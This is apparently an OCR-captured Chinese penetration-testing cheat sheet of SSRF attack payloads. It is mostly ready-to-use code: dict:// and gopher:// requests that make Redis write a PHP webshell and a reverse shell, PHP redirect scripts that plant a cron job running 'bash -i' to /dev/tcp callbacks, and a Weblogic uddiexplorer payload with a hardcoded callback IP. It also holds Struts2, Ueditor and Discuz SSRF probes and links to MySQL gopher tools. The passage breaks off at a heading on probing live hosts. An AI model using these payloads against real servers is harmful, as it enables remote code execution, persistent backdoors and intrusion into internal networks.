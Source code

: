 	获取webshell
	url=dict://127.0.0.1:6379/CONFIG%20SET%20dir%20/var/www/html
	url=dict://127.0.0.1:6379/CONFIG%20SET%20dbfilename%20file.php
	url=dict://127.0.0.1:6379/SET%20mykey%20"<\x3Fphp system($_GET[0])\x3F>"
	url=dict://127.0.0.1:6379/SAVE

	获取php反向shell
	gopher://127.0.0.1:6379/_config%20set%20dir%20%2Fvar%2Fwww%2Fhtml
	gopher://127.0.0.1:6379/_config%20set%20dbfilename%20reverse.php
	gopher://127.0.0.1:6379/_set%20payload%20%22%3C%3Fphp%20shell_exec%28%27bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2FREMOTE_IP%2FREMOTE_PORT%200%3E%261%27%29%3B%3F%3E%22
	gopher://127.0.0.1:6379/_save
 ##### 302反弹shell
	?url=http://xxxx/302.php?s=dict&ip=10.20.*.*&port=6379&data=flushall
	302.php
	<?php
	$ip = $_GET['ip'];
	$port = $_GET['port'];
	$scheme = $_GET['s'];
	$data = $_GET['data'];
	header("Location: $scheme://$ip:$port/$data");
	?>
	?url=http://xxxx/reverse.php?s=dict&ip=10.20.*.*&port=6379&bhost=*.*.*.*&bport=1234
	reverse.php
	<?php
	$ip = $_GET['ip'];
	$port = $_GET['port'];
	$bhost = $_GET['bhost'];
	$bport = $_GET['bport'];
	$scheme = $_GET['s'];
	header("Location: $scheme://$ip:$port/set:0:\"\\x0a\\x0a*/1\\x20*\\x20*\\x20*\\x20*\\x20/bin/bash\\x20-i\\x20>\\x26\\x20/dev/tcp/{$bhost}/{$bport}\\x200>\\x261\\x0a\\x0a\\x0a\"");
	?>
	?url=http://xxxx/302.php?s=dict&ip=10.20.*.*&port=6379&data=config:set:dir:/var/spool/cron/
	?url=http://xxxx/302.php?s=dict&ip=10.20.*.*&port=6379&data=config:set:dbfilename:root
	?url=http://xxxx/302.php?s=dict&ip=10.20.*.*&port=6379&data=save
	可设置burp–>intruder指定变量跑。
 ##### Mysql
	https://github.com/FoolMitAh/mysql_gopher_attack
	https://fireshellsecurity.team/isitdtu-friss/
 ##### Weblogic SSRF+Redis
	探测
	/uddiexplorer/SearchPublicRegistries.jsp?rdoSearch=name&txtSearchname=sdf&txtSearchkey=&txtSearchfor=&selfor=Business+location&btnSubmit=Search&operator=http://127.0.0.1:80
	Redis反弹
	set 1 "\n\n\n\n* * * * * root bash -i >& /dev/tcp/121.36.67.230/4444 0>&1\n\n\n\n"
	config set dir /etc/
	config set dbfilename crontab
	save
	/uddiexplorer/SearchPublicRegistries.jsp?rdoSearch=name&txtSearchname=sdf&txtSearchkey=&txtSearchfor=&selfor=Business+location&btnSubmit=Search&operator=http://192.168.0.110:6379/test%0D%0A%0D%0Aset%201%20%22%5Cn%5Cn%5Cn%5Cn*%20*%20*%20*%20*%20root%20bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F121.36.67.230%2F4444%200%3E%261%5Cn%5Cn%5Cn%5Cn%22%0D%0Aconfig%20set%20dir%20%2Fetc%2F%0D%0Aconfig%20set%20dbfilename%20crontab%0D%0Asave%0D%0A%0D%0Aaaa
	SSRF+内网Struct2
	http://www.xx.com/ssrf.php?url=http://10.1.1.1/action?action?redirect:http://attackerip/
 ##### Ueditor SSRF
	/editor/ueditor/php/controller.php?action=catchimage&source[]=http://my.ip/?aaa=1%26logo.png
 ##### Discuz
	/forum.php?mod=ajax&action=downremoteimg&message=[img=1,1]http://b182oj.ceye.io/xx.jpg[/img]&formhash=xxoo
 ##### 探测存活主机